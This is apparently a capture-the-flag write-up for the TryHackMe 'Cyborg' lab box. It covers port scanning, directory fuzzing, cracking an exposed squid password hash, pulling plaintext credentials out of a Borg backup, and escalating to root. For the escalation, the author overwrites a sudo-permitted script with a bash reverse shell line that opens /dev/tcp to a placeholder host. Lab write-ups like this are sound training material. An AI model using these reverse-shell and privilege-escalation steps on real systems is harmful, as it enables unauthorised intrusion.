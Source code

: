 ```bash
# PLATFORM          . THM
# CTF NAME          . Cyborg
# DESCRIPTION       . A box involving encrypted archives, source code analysis and more.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/cyborgt8
```

```bash
sudo nmap -sSVC -T5 10.10.143.145 -p- -oN cyborg
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I have started a fuzzer while the nmap scan was running.

```
ffuf -u http://10.10.143.145/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
etc                     [Status: 301, Size: 312, Words: 20, Lines: 10]
```

- Inside `/etc` we find a directory called `squid` containing two files, `passwd` and `squid.conf`. 

```squid.conf
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

```passwd
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

- We got the hash for whatever is `music_archive`.

- Running a simple `john` against this file reveals the password.

```
squidward        (music_archive)     
```

- The `admin` page has some information laying around, a stupid conversation - but the piece of information that matters to us is located in `Archive - Download`.

- We will download a `archive.tar` file that can be unzipped using `tar -xf`. It contains a folder called `home`. 

- By navigating to `/home/field/dev/final_archive` all we can find is some files that aren't of much use to us - in this form, at least.

```
config  data  hints.5  index.5  integrity.5  nonce  README
```

```README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

- So we know this is a Borg Backup. After some googling around, I found out that it can be easily installed and `borg list [path]` can be used to list Borg Backups in a certain path.

- Using `borg list /home/field/dev/final_archive` will ask for a passphase, which is the password found above.

```
music_archive                        Tue, 2020-12-29 16:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

- It seems that there's one Borg Backup. Let's extract it.

```
borg extract -v --list home/field/dev/final_archive/::music_archive
```

```
home/alex
home/alex/.bashrc
home/alex/.bash_logout
home/alex/.profile
home/alex/Music
home/alex/.bash_history
home/alex/.dbus
home/alex/.dbus/session-bus
home/alex/.dbus/session-bus/c707f46991feb1ed17e415e15fe9cdae-0
home/alex/.config

{trimmed for readability}

home/alex/.config/ibus
home/alex/.config/ibus/bus
home/alex/Documents
home/alex/Documents/note.txt
home/alex/Public
home/alex/Videos
home/alex/Desktop
home/alex/Desktop/secret.txt
home/alex/Downloads
home/alex/Templates
home/alex/Pictures
```

```bash
find . -name *.txt 

./Desktop/secret.txt
./Documents/note.txt
```

```secret
shoutout to all the people who have gotten to this stage whoop whoop!"
```

```note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

- Alright, so we have access to the box now. 

```
sudo -l

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- A simple cat reveals the source code of the script, which, in short, does backup of .mp3 files.

- However, a `ls -l` reveals that this file is owned by us, so we can replace its content with anything we like. And ...  you know what we like :) 

- **NOTE:** Use `chmod` to allow write permissions on the file first.

- After replacing the content with a bash reverse shell, run the script as `sudo /etc/mp3backups/backup.sh`

```backup.sh
#!/bin/bash
sh -i >& /dev/tcp/ip/port 0>&1
```

- The last flag is in `/root/root.txt`
